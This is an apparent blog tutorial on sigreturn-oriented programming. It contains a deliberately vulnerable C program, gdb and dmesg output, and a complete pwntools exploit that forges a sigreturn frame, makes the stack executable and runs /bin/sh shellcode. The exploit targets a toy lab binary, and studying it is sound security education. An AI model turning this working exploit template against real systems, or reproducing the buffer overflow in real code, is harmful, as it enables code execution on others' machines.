

Sigreturn-oriented programming (SROP) is a exploit development technique used to execute code, this attack employs the same basic assumptions behind the return-oriented programming (ROP) technique.
TL;DR
When a signal occurs, the kernel “pauses” the process’s execution in order to jump to a signal handler routine. In order to safely resume the execution after the handler, the context of that process is pushed/saved on the stack (registers, flags, instruction pointer, stack pointer etc). When the handler is finished, sigreturn() is being called which will restore the context of the process by popping the values off of the stack. That’s what is being exploited in that technique.
Differences from ROP
SROP exploits are usually portable across different binaries with minimal or no effort and allow easily setting the contents of the registers, which could be non-trivial or unfeasible for ROP exploits if the needed gadgets are not present. Moreover, SROP requires a minimal number of gadgets (ROP) and allows constructing effective shellcodes by chaining system calls.
Sigcontext Structure
The attack works by putting on the call stack a forged sigcontext structure and then overwriting the return address with the location of a gadget that allows the attacker to call the sigreturn()
The sigcontext structure length is 248 Bytes, ignore the first 8 Byte
rt_sigreturn()
Attacks
ROP Gadget
In order to achieve this attack we need first ROP gadgets to do :
# x64
mov eax, 0x0f; syscall; ret
# x86
mov eax, 0x77; int 0x80; ret
Example : srop.c
This is our example to perform SROP attack.
#include <stdio.h>
#include <stdlib.h>
// gcc srop.c -o srop -no-pie -fno-stack-protector
void syscall_(){
__asm__("syscall; ret;");
}
void set_rax(){
__asm__("movl $0xf, %eax; ret;");
}
int main(){
// ONLY SROP!
char buff[100];
printf("Buff @%p, can you SROP?\n", buff);
read(0, buff, 5000);
return 0;
}
Finding The Crash
root@kali:~/srop# python -c 'print "A" * 120 + "BBBB"' | ./srop
Buff @0x7fff7f78eb30, can you SROP?
Segmentation fault
root@kali:~/srop# dmesg | tail
[ 258.498005] IPv6: ADDRCONF(NETDEV_CHANGE): eth0: link becomes ready
[ 264.546090] e1000: eth0 NIC Link is Down
[ 268.579755] e1000: eth0 NIC Link is Up 1000 Mbps Full Duplex, Flow Control: None
[ 2196.793909] srop[2120]: segfault at 7f0a42424242 ip 00007f0a42424242 sp 00007fff7f78ebb0 error 14
As we can see the rip offset to overwrite will be at 120.
Finding Gadgets
root@kali:~/srop# gdb ./srop -q
Reading symbols from ./srop...(no debugging symbols found)...done.
gdb-peda$ disassemble syscall_
Dump of assembler code for function syscall_:
0x0000000000401132 <+0>: push rbp
0x0000000000401133 <+1>: mov rbp,rsp
0x0000000000401136 <+4>: syscall
0x0000000000401138 <+6>: ret
0x0000000000401139 <+7>: nop
0x000000000040113a <+8>: pop rbp
0x000000000040113b <+9>: ret
End of assembler dump.
gdb-peda$ disassemble set_rax
Dump of assembler code for function set_rax:
0x000000000040113c <+0>: push rbp
0x000000000040113d <+1>: mov rbp,rsp
0x0000000000401140 <+4>: mov eax,0xf
0x0000000000401145 <+9>: ret
0x0000000000401146 <+10>: nop
0x0000000000401147 <+11>: pop rbp
0x0000000000401148 <+12>: ret
End of assembler dump.
gdb-peda$
As we can see we have what we want to setup the stack for Sigreturn() syscall.
Exploit
#!/usr/bin/python
from pwn import *
context.clear(arch="amd64")
p = process("./srop")
# ENTRIES : ROP gadgets
syscall_ret = 0x0401136
mov_rax_15_ret = 0x0401140
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
# Leak
buff_leak = p.recv()
stack_leak = buff_leak[6:17] + "000"
stack_addr = int(stack_leak, 16)
shellcode_addr = int(buff_leak[6:20], 16)
p.info("Stack at : " + str(hex(stack_addr)))
p.info("Shellcode at : " + str(hex(shellcode_addr)))
# Exploit
payload = shellcode
payload += "A" * (120-len(shellcode))
payload += p64(mov_rax_15_ret)
payload += p64(syscall_ret)
frame = SigreturnFrame(kernel="amd64") # CREATING A SIGRETURN FRAME
frame.rax = 10 # MPROTECT SYSCALL
frame.rdi = stack_addr # base address
frame.rsi = 1000 # size
frame.rdx = 7 # SET RDX => RWX PERMISSION
frame.rsp = shellcode_addr + len(payload) + 248 # WHERE 248 IS SIZE OF FAKE FRAME!
frame.rip = syscall_ret # SET RIP TO SYSCALL ADDRESS
payload += str(frame)
payload += p64(shellcode_addr) # WHERE IT GOING TO RETURN ( shellcode )
# Sending Payload
p.sendline(payload)
p.interactive()
Please leave comments bellow if you have any additional information or any question ?